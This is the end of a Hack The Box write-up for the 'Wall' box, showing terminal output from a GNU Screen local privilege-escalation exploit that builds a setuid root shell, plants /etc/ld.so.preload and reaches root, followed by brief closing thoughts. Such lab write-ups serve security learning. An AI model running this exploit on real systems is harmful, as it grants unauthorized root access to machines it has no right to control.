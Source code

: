 ```
www-data@Wall:/tmp$ ./exploit-crlf-removed.sh
./exploit-crlf-removed.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
whoami
root
```
We got root!

## Ending Thoughts

This Wall was my first box on HTB.

I wanted to start with an Easy box, but I was so unfamiliar with the platform that I didn't even realize it was rated Medium.
